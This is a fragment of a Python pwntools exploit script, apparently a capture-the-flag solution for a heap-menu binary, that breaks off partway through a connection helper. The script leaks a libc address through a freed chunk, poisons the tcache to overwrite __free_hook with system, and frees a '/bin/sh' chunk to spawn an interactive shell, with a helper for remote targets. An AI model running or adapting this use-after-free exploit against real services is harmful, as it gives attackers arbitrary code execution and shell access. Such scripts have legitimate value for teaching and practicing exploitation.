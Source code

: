 ```python

    def delete(idx):
        io.sendlineafter(b"> ", b"2")
        io.sendlineafter(b"> ", idx)

    def edit(idx, content):
        io.sendlineafter(b"> ", b"3")
        io.sendlineafter(b"> ", idx)
        io.sendlineafter(b"> ", content)

    def view(idx):
        io.sendlineafter(b"> ", b"4")
        io.sendlineafter(b"> ", idx)
        return io.recvuntil("You").split(b'\n')[0]

    def exit():
        io.sendlineafter("> ", "5")


    new(b'0', b'400', b"A")
    new(b'1', b'1200', b"B")
    new(b'2', b'400', b"C")
    delete(b'1')

    libc_leak = view(b"1")
    libc_leak_int = int.from_bytes(libc_leak, 'little')
    libc_leak_offset = 0x1ECBE0
    libc_base = libc_leak_int - libc_leak_offset
    print(f'libc_base: {hex(libc_base)}')
    validate_leaked_addresses(io, libc_base=libc_base)
    libc.address = libc_base

    new(b'3', b'200', b'D')
    new(b'4', b'200', b'E')
    delete(b'3')
    delete(b'4')

    edit(b'4', p64(libc.sym["__free_hook"]))
    new(b'5', b'200', b'/bin/sh')
    new(b'6', b'200', b'AAAA')
    edit(b'6', p64(libc.sym["system"]))
    delete(b'5')

    io.interactive()
    clean_up()







### Helper start

def start_conn():
    if args.REMOTE:
        log.info(Template('Starting with remote connection to $HOST on port $PORT...').substitute(HOST=sys.argv[1], PORT=sys.argv[2]))
        io = remote(sys.argv[1], sys.argv[2])
    else:
        log.info('Starting locally...')
        io = process([exe.path], env=ENV_VARS)
        if args.GDB:
```